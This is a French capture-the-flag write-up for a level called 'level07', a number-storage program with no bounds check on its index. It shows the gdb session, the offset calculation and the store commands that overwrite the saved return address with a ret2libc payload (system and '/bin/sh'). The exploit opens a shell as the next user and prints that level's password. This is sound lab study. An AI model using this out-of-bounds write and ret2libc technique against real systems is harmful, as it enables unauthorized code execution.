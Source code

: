 # Level 07

```
$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 42
 Index: 0
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: store
 Number: 420
 Index: 1
 Completed store command successfully
Input command: read
 Index: 0
 Number at data[0] is 0
 Completed read command successfully
Input command: read
 Index: 1
 Number at data[1] is 420
 Completed read command successfully
Input command: read
 Index: -1
 Number at data[4294967295] is 0
 Completed read command successfully
Input command: store
 Number: 42
 Index: -2
 Completed store command successfully
Input command: readt
 Index: -2
 Number at data[4294967294] is 42
 Completed readt command successfully
Input command: quit
```
Ce programme nous permet de stocker des nombres dans un tableau. Cependant, certaines cases sont réservées pour `wil`.<br />
On peut voir que le programme utilise des entiers non signés pour stocker les index. Cela signifie que si on rentre un index négatif, il sera converti en un entier non signé. Par exemple, `-1` deviendra `4294967295` (2^32 - 1).

Après avoir désassemblé le programme, on sait que le tableau a une taille de 100 nombres mais il n'y a pas de check sur l'index.

Donc on peut trouver l'offset pour pouvoir écrire dans `saved eip` avec gdb

En premier temps on va trouver l'adresse de `saved eip`

```sh
(gdb) b main
(gdb) r
(gdb) i f
...
 Saved registers:
  ebp at 0xffffcc58, eip at 0xffffcc5c

```
Ensuite on va trouver l'adresse de stockage. En regardant le code disas, on apercoit que l'offset est l'adresse contenue à `saved eip` moins l'adresse contenue à `esp + 36` <br/>
On va devoir aussi diviser par 4 vu que les nombres sont stockés en four-byte integer. On obtient bien notre offset de 114 pour écrire notre ret2libc. 

```sh
(gdb) p $esp + 36
$8 = (void *) 0xffffca94
(gdb) p (0xffffcc5c - 0xffffca94)
$9 = 456
(gdb) p (0xffffcc5c - 0xffffca94) /4
$10 = 114
(gdb)
```

Trouvons toutes les adresses nécessaires pour faire la ret2libc: 
```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
```
En decimal ça nous donne:
 - system = 4159090384
 - /bin/sh = 4160264172
 - et l'offset de eip = 114

Malheureusement 114 modulo 3 n'est pas égale à 0 nous allons donc devoir trouver un moyen d'écrire à 114. Donc on peut overflow ou underflow l'int.

Comme l'index fourni est un int mais que le stockage est un unsigned int nous devons diviser par 4 le resultat de l'overflow (2^32 / 4) + 114

```
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
